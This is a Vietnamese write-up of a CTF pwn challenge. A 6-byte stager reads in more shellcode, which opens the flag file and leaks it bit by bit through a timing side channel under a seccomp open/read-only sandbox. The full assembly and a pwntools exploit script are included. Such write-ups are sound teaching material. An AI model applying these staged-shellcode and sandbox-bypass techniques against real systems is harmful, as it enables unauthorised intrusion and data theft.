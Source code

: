 # SHELLCODE+TIMING ATTACK

Bài này ta được cung cáp file src như sau :
```C
// gcc chall.c -o chall -lseccomp

#define _GNU_SOURCE 1

#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>
#include <unistd.h>
#include <stdio.h>
#include <seccomp.h>

void *shellcode_mem;
size_t shellcode_size;

int main(int argc, char **argv, char **envp)
{
    shellcode_mem = mmap((void *) 0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
    assert(shellcode_mem == (void *) 0x1337000);
    puts("hihihihi");
    puts("Welcome to the KCSCTF shellcode sandbox!");
    puts("======================================");
    puts("Allowed syscalls: open, read");
    puts("You've got 6 bytes, make them count!");
    puts("======================================");
    fflush(stdout);

    shellcode_size = read(0, shellcode_mem, 0x6);
    assert(shellcode_size > 0);

    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);

    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0) == 0);    
    assert(seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0) == 0);

    assert(seccomp_load(ctx) == 0);

    ((void(*)())shellcode_mem)();
}
```
ta có thể thấy rằng ở bài này tác giả đã cố ý sử dụng seccomp để cho ta chỉ có thể sử dụng hai syscall là sys.read và sysopen . Cùng với đó ta có thể thấy trước 
dó chương  trình đã gọi hàm mmap để tạo ra một khoảng bộ nhớ để có quyền RWX và sẽ đọc 6byte vô địa chỉ đó(0x1337000), rồi mới thiết lập seccomp ,cuối cùng nó sẽ thực thi 6byte shellcode mà ta đã ghi vô 0x1337000.
. Vậy ta chỉ còn có cách là dùng 6 byte shellcode đó gọi hàm read và ta sẽ ghi thêm shellcode vô địa chỉ(0x1337000+6) để điều khiển chương trình .

# PLAN 
1. dùng 6 byte shellcode đọc để gọi hàm read vô địa chỉ 0x1337000+6 tiếp tục điều khiển chương trình
2. ta sẽ đọc flag và brute force từng byte của chương trình để lấy flag

# Stage1: 

phần này thì chỉ cần debug chương trình , đặt break point ngay trước khi chương trình thục thi shell code của ta thì ta sẽ thấy các thanh ghi như sau :
```asm
rax: 0
rdx: 0x1337000
rdi: giá trị nào đó 
```
vậy để có thể gọi hàm read thì ta chỉ cần rsi chỏ đển địa chỉ buffer mà ta muốn đọc vô và rdi=0 để có thể đọc dưới dạng là stdin . vậy ta sẽ có shell code như sau :
```asm
mov esi,edx
xor edi,edi
syscall
```

và ta có shellcode như sau :
```python
shellcode=b"\x89\xD6\x31\xFF\x0F\x05"
```
ok ta thấy rằng shell code của ta khônng dính null byte và vừa đủ 6 byte.

# Stage2:
ta có code như sau :

```asm
        xor rax,rax         
        mov al,2
        xor rdi,rdi
        mov edi,0x1337110     ; địa chỉ sẽ chứ đường dẫn "./flag\x00" của ta 
        xor rsi,rsi
        xor rdx,rdx
        syscall               ; sys open 
        mov edi,eax           ; 
        xor rax,rax
        mov dl,0x99
        xor rsi,rsi
        mov esi,0x1337210     ; sau khi mở thì ta sẽ đọc flag vô địa chỉ 0x1337210
        syscall               ; sys read
```


```python
            shellcode=b"A"*6 # padding qua 6 byte trước đó 
            shellcode+=shellcode__(index,bit_offset)# shellcode ở phía  trên 
            shellcode=shellcode.ljust(0x110) # padding đế địa chỏ chứa đường dẫn của ta 
            shellcode+=b'./flag\x00' # đường dẫn 
```

OK vậy là xong bước 2 . debug trên local thì ta sẽ thấy chương trình đã đọc flag vô địa chỉ 0x1337210;


Bước còn lại là lấy flag ra . Ta sẽ sử dụng timing attack , ta sẽ cho chương trình đọc từng byte của flag vô thanh ghi bl sau đó đối chiếu với từng ký tự asccii có thể in ra .
nhưng cách này thì rât lâu bơi ta sẽ phải đối chiếu với rất tất cả các ký tự asccii trong string.printable.Và lúc thi thì mình làm cách này =))

Nhưng sau khi xem solution thì mình sẽ dùng cách khác đó là đối chiếu từng từng bit , dùng cách này thì ta sẽ chỉ cần 8 lần brute ta đã có thể lấy được 1 chữ .

mình sẽ lấy VD để dễ giải thích hơn :

ta biết chữ đầu tiên trong flag sẽ là "K" dưới dạng bin thì sẽ là '0100 1011', ta sẽ đối chiếu từng bit như sau 

```asm
        mov eax,0x1337210
        add eax,{index}
        mov bl, byte ptr[rax]
        ; vd ta muốn lấy second least significant bit(bit thứ 2 từ phải qua) tương ứng với index=1
        shr bl,{bit_offset}    ;(0100 1011) >> 1= 0010 0101
        shl bl,7               ; 0010 0101 << 7= 1000 0000
        shr bl,7               ; 1000 0000 >> 7= 0000 0001
        INFI_LOOP:
            cmp bl,0           ; nếu bit đó là 1 thì ta sẽ cho chương trình chạy vô hạn 
            je end             ; 0 thi thoát
            jmp INFI_LOOP
        end:
```

vậy để kiểm tra xem chương trình có rơi vào INFI_LOOP không thì ta chỉ cần :
```python
start=time.time()# thời gian ngay sau khi ta send payload lần 2
p.recvall(timeout=1).decode()# nếu chương trình rơi vào vong INFI loop thì sẽ có  1 giay khác bieejt giữa giá trị của now và start.
now=time.time()
```



vậy ta sẽ có code như sau :
```python
def shellcode__(index,bit_offset):
    shellcode=asm(
        f'''
        xor rax,rax
        mov al,2
        xor rdi,rdi
        mov edi,0x1337110
        xor rsi,rsi
        xor rdx,rdx
        syscall
        mov edi,eax
        xor rax,rax
        mov dl,0x99
        xor rsi,rsi
        mov esi,0x1337210
        syscall

        mov eax,0x1337210
        add eax,{index}
        mov bl, byte ptr[rax]
        shr bl,{bit_offset}
        shl bl,7
        shr bl,7
        cmp bl,0
        INFI_LOOP:
            cmp bl,0
            je end
            jmp INFI_LOOP
        end:
        '''
        )
    return shellcode
def timing_attack(index):
    string_bin=''
    for bit_offset in range(8):
        
            #p=remote("103.162.14.240", 15000)
            p=process(exe.path)
            #GDB()
            shellcode=b"\x89\xD6\x31\xFF\x0F\x05"
            p.send(shellcode)
            shellcode=b"A"*6
            shellcode+=shellcode__(index,bit_offset)
            shellcode=shellcode.ljust(0x110)
            shellcode+=b'./flag.txt\x00'
            p.send(shellcode)
            start=time.time()
            p.recvall(timeout=1).decode()
            now=time.time()
            if (now-start>1):
                string_bin='1'+string_bin
            else:
                string_bin='0'+string_bin
    byte=int(string_bin,2)
    return byte
```

author scipt in s.py

my script in p.py

chạy script và ĐỢI thì ta sẽ có flag:

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/5b920ea4-d031-46ca-8666-ab2bb1aef9bf)

flag`KCSC{S1de_channel_hihihi_d6e25f87c7ebeef6e80df23d32c42d00}`




